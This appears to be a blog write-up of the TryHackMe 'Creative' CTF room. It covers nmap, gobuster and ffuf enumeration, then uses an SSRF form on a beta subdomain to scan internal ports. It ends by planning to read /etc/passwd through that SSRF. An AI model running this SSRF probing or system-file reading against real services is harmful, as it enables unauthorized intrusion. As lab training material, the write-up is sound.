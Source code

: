 ```yaml
---
title: "TryHackMe: Creative"
author: cilgin
date: 2025-07-11 13:01:01 +0300
categories: [CyberSecurity]
tags: [CTF, TryHackMe, Easy]
pin: false
math: false
mermaid: false
image:
  path: /assets/img/2025-07-11-TryHackMe-Creative/main.webp
---
```


Hi I'm making [TryHackMe Creative](https://tryhackme.com/room/creative) room.

---

```bash
export IP=10.10.86.65
```

```bash
❯ nmap -T4 -n -sC -sV -Pn -p- $IP
Starting Nmap 7.97 ( https://nmap.org ) at 2025-07-11 13:04 +0300
Nmap scan report for 10.10.86.65
Host is up (0.072s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 28:0b:28:e5:d3:14:25:ce:d6:46:90:27:cd:27:eb:e3 (RSA)
|   256 b3:d0:78:aa:47:a3:ce:4b:e0:a3:09:d8:21:31:3c:4d (ECDSA)
|_  256 ee:6a:8d:69:3a:f3:91:bb:d3:c9:fc:71:3d:9b:3f:69 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://creative.thm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 132.32 seconds
```

Lets visit the website.

Firstly lets add creative.thm to `/etc/hosts`

![Desktop View](/assets/img/2025-07-11-TryHackMe-Creative/photo1.webp){: width="972" height="589" }

Lets firstly fuzz the website using `gobuster`.

```bash
❯ gobuster dir -w common.txt -u http://creative.thm/ -x md,js,html,php,py,css,txt,bak -t 50
===============================================================
Gobuster v3.7
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://creative.thm/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.7
[+] Extensions:              php,py,css,txt,bak,md,js,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 178] [--> http://creative.thm/assets/]
/components.html      (Status: 200) [Size: 41148]
/index.html           (Status: 200) [Size: 37589]
Progress: 42651 / 42651 (100.00%)
===============================================================
Finished
===============================================================
```

Nothing crazy.

Lets try finding subdomains.

```bash
❯ ffuf -w top_subdomains.txt -u http://creative.thm/ -H "Host:FUZZ.creative.thm" -fw 6 -t 50

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0
________________________________________________

 :: Method           : GET
 :: URL              : http://creative.thm/
 :: Wordlist         : FUZZ: /home/cilgin/dev/wordlist/top_subdomains.txt
 :: Header           : Host: FUZZ.creative.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response words: 6
________________________________________________

beta                    [Status: 200, Size: 591, Words: 91, Lines: 20, Duration: 78ms]
:: Progress: [114441/114441] :: Job [1/1] :: 688 req/sec :: Duration: [0:02:56] :: Errors: 0 ::
```

Lets add beta.creative.thm to the `/etc/hosts` and go tho the website.

![Desktop View](/assets/img/2025-07-11-TryHackMe-Creative/photo2.webp){: width="972" height="589" }

Lets open a python webserver to test this.

![Desktop View](/assets/img/2025-07-11-TryHackMe-Creative/photo3.webp){: width="972" height="589" }

![Desktop View](/assets/img/2025-07-11-TryHackMe-Creative/photo4.webp){: width="972" height="589" }

So it directly gets the `/` endpoint. We can use this to make ssrf. Lets try getting all localhost services. Using this `ffuf` command.

```bash
❯ ffuf -w <(seq 1 65535) -u 'http://beta.creative.thm/' -d "url=http://127.0.0.1:FUZZ/" -H 'Content-Type: application/x-www-form-urlencoded' -mc all -t 100 -fs 13

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://beta.creative.thm/
 :: Wordlist         : FUZZ: /proc/self/fd/11
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : url=http://127.0.0.1:FUZZ/
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 100
 :: Matcher          : Response status: all
 :: Filter           : Response size: 13
________________________________________________

80                      [Status: 200, Size: 37589, Words: 14867, Lines: 686, Duration: 289ms]
1337                    [Status: 200, Size: 1188, Words: 41, Lines: 40, Duration: 244ms]
```

We can see that localhost:1337 is open in that machine.

So to that manually.

![Desktop View](/assets/img/2025-07-11-TryHackMe-Creative/photo5.webp){: width="972" height="589" }
![Desktop View](/assets/img/2025-07-11-TryHackMe-Creative/photo6.webp){: width="972" height="589" }

Its giving directory listing for / but if I click any of that directories I get 404. So we need to manually write the endpoint like /etc/passwd

